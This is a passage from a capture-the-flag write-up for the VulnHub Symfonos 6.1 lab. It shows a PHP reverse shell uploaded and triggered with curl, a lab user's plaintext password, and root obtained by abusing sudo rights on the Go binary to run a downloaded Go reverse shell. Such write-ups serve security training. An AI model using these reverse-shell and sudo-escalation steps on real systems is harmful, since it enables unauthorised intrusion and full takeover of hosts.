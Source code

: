 		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit/api]
		└─# python3 -m http.server 80
		Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
		192.168.110.25 - - [11/Feb/2022 04:17:21] "GET /php-reverse-shell.php HTTP/1.1" 200 -
		```
	4. Execute `php-reverse-shell.php`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit/api]
		└─# curl http://$ip/posts/php-reverse-shell.php
		```
		![](Pasted%20image%2020220211042009.png)

		<iframe width="720" height="500" src="https://www.youtube.com/embed/D_Aiko2UQbA" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
	


	

# Privilege Escalation

## Achilles - Via Creds Found
1. Switch to Achilles w/ achilles:h2sBr9gryBunKdF9
	![](Pasted%20image%2020220211014309.png)

## Root - Via Sudo
1. Check for sudo access
	```
	[achilles@symfonos6 git]$ sudo -l
	Matching Defaults entries for achilles on symfonos6:
		!visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
		LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
		LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
		env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

	User achilles may run the following commands on symfonos6:
		(ALL) NOPASSWD: /usr/local/go/bin/go
	[achilles@symfonos6 git]$ 
	```
2. Create `go` reverse shell
	![](Pasted%20image%2020220211015813.png)
	- [Download rev.go](https://gist.githubusercontent.com/yougg/b47f4910767a74fcfe1077d21568070e/raw/5a314b4faaa6e5428af1131bde35b6ed38e160c1/reversesh.go)
3. Transfer to target
4. Execute reverse shell
	```
	[achilles@symfonos6 tmp]$ sudo /usr/local/go/bin/go run /tmp/rev.go
	```
5. Root shell obtained
	![](vmware_BiPmtmBUIh.gif)
6. Root Flag
	```
	cat proof.txt
